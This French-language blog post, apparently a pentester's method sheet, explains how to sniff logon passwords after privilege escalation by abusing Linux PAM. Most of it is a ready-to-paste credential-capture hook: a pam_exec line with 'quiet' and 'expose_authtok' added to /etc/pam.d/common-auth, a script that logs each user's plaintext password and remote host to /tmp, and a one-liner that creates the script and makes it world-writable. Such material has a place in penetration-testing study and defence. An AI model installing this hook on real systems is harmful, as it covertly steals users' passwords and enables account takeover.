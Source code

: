 ```yaml
---
title: Sniffing de password avec PAM 
meta_title: ""
description: Cet article aborde la technique de récupération des password au Logon avec PAM. 
date: 2024-04-04T05:00:00Z
image: /images/PAM.jpeg
categories:
  - Méthodes
author: Tmax
tags:
  - Méthodes
  - Fiches
  - PAM
  - Post-exploitation
draft: false
---
```


Cette technique peut etre gamechanger à la suite d'une escalation de privilège.

Prérequis : 
- Vous remarquez un Bot ou une crontab qui s'execute fréquemment 
- Vous avez des droits de modifications dans le répertoire `/etc/pam.d`
- Vous pouvez lire le fichier `/var/log/auth.log`

Après avoir constaté que vous remplissez les conditions requises, vous remarquez qu'à chaque execution de la tâche planifiée, une ligne comme celle-ci apparait :

{{< image src="images/methode_sniffing_pam1.png" caption="" alt="alter-text" height="" width="" position="center" command="fill" option="q100" class="img-fluid" title="image title" webp="false" >}}

Ce qui signifie qu'une une authentification s'effectue avec l'utilisateur root ou un autre utilisateur avec `su`. 

Il est possible de récupérer le mot de passe utilisé durant cette authentification. 

Pour cela, on utilise le module `pam_exec`. Le principe est simple, on va lui dira qu'à chaque authentification, il appel notre script. `expose_authtok` permet de pouvoir lire le mot de passe passé en stdin et `quiet` pour s'assurer de ne pas être visible par l'utilisateur. 

On modifie alors le fichier de configuration `/etc/pam.d/common-auth` pour y ajouter cette ligne (bien espacer chaque mot par un tabulation `\t`): 

```bash
auth    optional    pam_exec.so quiet   expose_authtok  /tmp/sniffing.sh
```

Voici le contenu de /tmp/sniffing.sh

```bash
#!/bin/sh
echo "$(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /tmp/sniffing.log
```

Cela affichera la date et l'heure, l'utilisateur puis son mot de passe ainsi que l'IP de l'hôte distant et sera envoyé vers notre fichier de log. 

```bash
echo -e '#!/bin/sh\necho "$(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /tmp/sniffing.log' > /tmp/sniffing.sh

touch /tmp/sniffing.log

chmod 777 /tmp/sniffing.* 
```

Source : [Post Exploitation: Sniffing Logon Passwords with PAM](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)

